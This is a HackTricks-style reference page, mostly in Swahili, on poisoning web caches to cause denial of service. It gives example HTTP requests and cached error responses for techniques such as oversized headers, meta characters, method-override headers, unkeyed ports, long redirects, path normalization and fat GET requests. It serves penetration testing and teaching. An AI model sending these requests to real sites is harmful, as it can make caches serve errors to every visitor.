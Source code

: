 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Katika ukurasa huu unaweza kupata tofauti mbalimbali za kujaribu kufanya **seva ya wavuti ijibu kwa makosa** kwa maombi ambayo ni **halali kwa seva za cache**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Tuma ombi lenye ukubwa wa kichwa mkubwa kuliko kile kinachoungwa mkono na seva ya wavuti lakini kidogo kuliko kile kinachoungwa mkono na seva ya cache. Seva ya wavuti itajibu kwa jibu la 400 ambalo linaweza kuhifadhiwa:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Thamani zisizotarajiwa**

Tuma kichwa kinachojumuisha baadhi ya **herufi za meta zenye madhara** kama `\n` na `\r`. Ili shambulio kufanikiwa, lazima upite cache kwanza.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
A header iliyo na usanidi mbaya inaweza kuwa tu `\:` kama kichwa.

Hii inaweza pia kufanya kazi ikiwa thamani zisizotarajiwa zitatumwa, kama vile Content-Type zisizotarajiwa:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

Baadhi ya tovuti zitarudisha msimbo wa hali ya kosa ikiwa **zinaona vichwa fulani maalum** katika ombi kama vile na _X-Amz-Website-Location-Redirect: someThing_ header:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

Ikiwa seva inasaidia kubadilisha njia ya HTTP kwa kutumia vichwa kama `X-HTTP-Method-Override`, `X-HTTP-Method` au `X-Method-Override`. Inawezekana kuomba ukurasa halali kwa kubadilisha njia ili seva isiupe, hivyo jibu mbaya linahifadhiwa:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

Ikiwa bandari katika kichwa cha Host inarejelewa katika jibu na haijajumuishwa katika ufunguo wa cache, inawezekana kuielekeza kwenye bandari isiyotumika:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Kama katika mfano ufuatao, x haikuhifadhiwa, hivyo mshambuliaji anaweza kutumia tabia ya majibu ya kuelekeza ili kufanya kuelekeza kutuma URL kubwa kiasi kwamba inarudisha kosa. Kisha, watu wanaojaribu kufikia URL bila funguo ya x isiyohifadhiwa watapata jibu la kosa:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Kurekebisha kesi ya kichwa cha mwenyeji**

Kichwa cha mwenyeji kinapaswa kuwa kisichokuwa na kesi lakini baadhi ya tovuti zinatarajia kuwa katika herufi ndogo na kurudisha kosa ikiwa si hivyo:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Path normalization**

Baadhi ya kurasa zitarejesha nambari za makosa zinapotuma data URLencode katika njia, hata hivyo, seva ya cache itafanya URLdecode njia na kuhifadhi jibu kwa njia iliyofanywa URLdecode:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Baadhi ya seva za cache, kama Cloudflare, au seva za wavuti, zinaacha maombi ya GET yenye mwili, hivyo hii inaweza kutumika vibaya kuhifadhi jibu lisilo sahihi:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## References

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
